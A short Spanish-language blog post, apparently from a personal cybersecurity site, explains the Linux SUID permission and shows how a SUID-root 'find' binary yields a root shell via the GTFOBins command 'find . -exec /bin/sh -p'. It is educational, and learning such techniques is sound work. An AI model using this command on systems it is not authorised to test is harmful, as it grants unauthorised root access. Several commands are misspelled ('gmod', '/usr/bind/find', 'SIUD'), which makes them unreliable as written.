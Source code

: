 ```yaml
---
date: 2021-09-07T00:22:05.000Z
layout: post
comments: true
title: Permisos SIUD
subtitle: 'y su explotación'
description: >-
image: >-
  http://imgfz.com/i/Q8pIHbz.png
optimized_image: >-
  http://imgfz.com/i/Q8pIHbz.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

Este tipo de permiso establece el ID de usuario del propietario de manera temporal, el cual se consigue agregando un 4 al momento de otorgar los permisos:
```
Si antes se realizaba
root> gmod 755 /usr/bind/find
[-rwxr-xr-x]

Ahora si quieres agregar el permiso SIUD, se debe colocar de la siguiente forma
root> gmod 4755 /usr/bind/find
[-rwsr-xr-x]

```

Ahora en este caso se lo asignamos a ```find```, el problema es que esto es vulnerable pues si aplicamos el siguiente comando, podremos obtener acceso como root:

```
user@user:~$ find . -exec /bin/sh -p \; -quit
# whoami
root

```
>https://gtfobins.github.io/gtfobins/find/

Esto pasa debido a que a user se le asigna de manera temporal el permiso de root (propietario), y en el caso mostrado se abre una shell aprovechando la vulnerabilidad.
